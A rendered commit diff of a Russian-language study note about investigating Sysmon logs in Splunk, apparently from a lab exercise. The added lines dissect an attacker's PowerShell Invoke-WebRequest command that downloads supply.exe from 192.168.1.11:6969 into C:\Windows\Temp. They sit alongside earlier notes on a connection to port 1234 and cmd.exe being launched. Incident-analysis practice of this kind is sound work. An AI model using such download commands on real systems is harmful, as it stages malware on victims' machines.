

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Splunk. Расследование sysmon.md, the part around the change. Drawn GitHub-style; pictures changed too: attachment/Pasted image 20261115220142.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-11-15 22:05:47

```diff
--- a/Splunk. Расследование sysmon.md
+++ b/Splunk. Расследование sysmon.md
@@ -84,3 +84,9 @@ Event ID = 15.  FileCreateStreamHash (Создание файлового пот
 ![](attachment/Pasted%20image%2020261115211802.png)
 Соединение с 192.168.1.11:1234
 ![](attachment/Pasted%20image%2020261115214002.png)Запуск cmd.exe.
+
+![](attachment/Pasted%20image%2020261115220142.png)cmd записал supply.exe на диск.
+- **`-c`** — сокращение от `-Command`. Говорит `powershell.exe` выполнить то, что написано дальше.
+- **`Invoke-WebRequest`** — команда PowerShell, которая отправляет веб-запрос и получает ответ сервера.
+- **`-Uri`** — параметр, задающий адрес запроса. `http://192.168.1.11:6969/supply.exe`
+Сохранение ответа в C:\Windows\Temp\supply.exe.
```
